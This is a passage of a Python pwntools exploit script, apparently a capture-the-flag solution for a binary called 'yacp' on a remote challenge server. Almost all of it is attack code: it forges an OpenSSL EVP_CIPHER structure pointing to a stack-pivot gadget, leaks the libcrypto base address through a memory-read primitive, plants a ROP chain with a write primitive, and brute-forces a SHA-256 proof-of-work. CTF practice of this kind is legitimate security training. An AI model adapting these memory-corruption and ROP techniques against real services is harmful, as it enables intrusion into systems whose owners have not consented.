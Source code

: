 ```python
    # EVP_CIPHER.init = junk
    evp_cipher += p32(0xdeadbeef)
    # EVP_CIPHER.do_cipher = junk
    evp_cipher += p32(0xdeadbeef)
    # EVP_CIPHER.cleanup = cleanup
    evp_cipher += p32(cleanup)
    # EVP_CIPHER.ctx_size = 0x84
    evp_cipher += p32(0x84)
    # EVP_CIPHER.set_asn1_parameters = junk
    evp_cipher += p32(0xdeadbeef)
    # EVP_CIPHER.get_asn1_parameters = junk
    evp_cipher += p32(0xdeadbeef)
    # EVP_CIPHER.ctrl = junk
    evp_cipher += p32(0xdeadbeef)
    # EVP_CIPHER.app_data = junk
    evp_cipher += p32(0xdeadbeef)
    return evp_cipher

def leak_libcrypto_base():
    EVP_CIPHER_PTR_ADDR = 0x805c208
    EVP_CIPHER_LIBCRYPTO_OFFSET = 0x1dd920
    evp_cipher_addr = u32(primitive_read(EVP_CIPHER_PTR_ADDR, 4))
    return evp_cipher_addr - EVP_CIPHER_LIBCRYPTO_OFFSET

def do_rop(rop, libcrypto_base):
    FAKE_EVP_CIPHER_BUF = 13
    FAKE_EVP_CIPHER_ADDR = BUFFER_ADDR + BUF_SIZE*FAKE_EVP_CIPHER_BUF
    GADGET_PIVOT = libcrypto_base + 0x3d619 # mov esp, ebp; pop ebp; ret;
    EVP_CIPHER_CTX_CIPHER_ADDR = 0x805c178
    # Load fake EVP_CIPHER in a buffer
    evp_cipher = build_fake_evp_cipher(GADGET_PIVOT)
    load_data(FAKE_EVP_CIPHER_BUF, evp_cipher)
    # Junk for EBP in front of ROP chain
    fake_stack = 'A'*4 + rop
    # When GADGET_PIVOT is executed ebp = key buffer
    # EVP_CIPHER_CTX.cipher = FAKE_EVP_CIPHER_ADDR
    primitive_write(EVP_CIPHER_CTX_CIPHER_ADDR, p32(FAKE_EVP_CIPHER_ADDR), fake_stack)

def do_challenge():
    p.recvuntil('It starts with ')
    prefix = p.recv(16)
    p.recvuntil('Magic word? ')
    alpha = [chr(i) for i in range(0x20, 0x7F + 1)]
    word = None
    for cand in itertools.product(alpha, repeat=16):
        cand_word = prefix + ''.join(cand)
        digest = hashlib.sha256(cand_word).digest()
        if digest[:3] == '\xff\xff\xff' and ord(digest[3]) >= 0xF0:
            word = cand_word
            break
    if word is None:
        print('[-] Cannot solve challenge')
        sys.exit(1)
    print('[+] Found magic word: {}'.format(word))
    p.sendline(word)

context(arch='i386', os='linux')
#p = process('./yacp', env={'LD_LIBRARY_PATH': '.'})
p = remote('yacp.chal.pwning.xxx', 7961)

print('[+] Solving challenge...')
do_challenge()

```